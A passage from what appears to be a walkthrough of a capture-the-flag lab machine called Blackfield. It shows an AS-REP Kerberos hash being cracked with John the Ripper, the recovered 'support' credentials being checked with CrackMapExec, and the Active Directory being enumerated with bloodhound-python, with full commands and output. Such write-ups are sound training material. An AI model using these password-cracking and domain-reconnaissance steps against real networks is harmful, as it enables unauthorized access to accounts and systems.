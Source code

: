 Nice, we do have a hash for the **support** user. If the user is using a weak password, we may be able to recover it.

## Password Cracking

Now, we just have to copy/paste the recovered hash in a file and try to crack it offline using the *rockyou* password list (if you are using Kali Linux, it should be present in the `/usr/share/wordlists/` folder). Here, we used [John the Ripper](https://github.com/openwall/john) to crack the password, but it can be done with other tools.

```bash
$ john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
1g 0:00:00:21 DONE (2022-02-11 09:32) 0.04608g/s 660597p/s 660597c/s 660597C/s #1ByNature..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Great, we now have credentials the **support** account (`support:#00^BlackKnight`). 

## WinRM Access

Using another awesome tool, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), we can check if the user's password is properly working.

```bash
$ crackmapexec smb 10.129.140.139 -d blackfield.local -u support -p '#00^BlackKnight'
SMB         10.129.140.139  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:blackfield.local) (signing:True) (SMBv1:False)
SMB         10.129.140.139  445    DC01             [+] blackfield.local\support:#00^BlackKnight 
```

The credentials are valid, but we still don't have any remote shell on the machine. Let's see if we can get some information about the domain using **BloodHound**.

## Active Directory Recon

With a valid account, we can now use one of the [BloodHound](https://github.com/BloodHoundAD/BloodHound) ingestors and gather more information about the Active Directory. Here, we use a Python based ingestor for BloodHound, [BloodHound.py](https://github.com/fox-it/BloodHound.py).

```bash
$ bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.129.140.139 --zip                    
INFO: Found AD domain: blackfield.local
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 315 users
INFO: Connecting to GC LDAP server: dc01.blackfield.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 04S
INFO: Compressing output into 20220211094020_bloodhound.zip
```
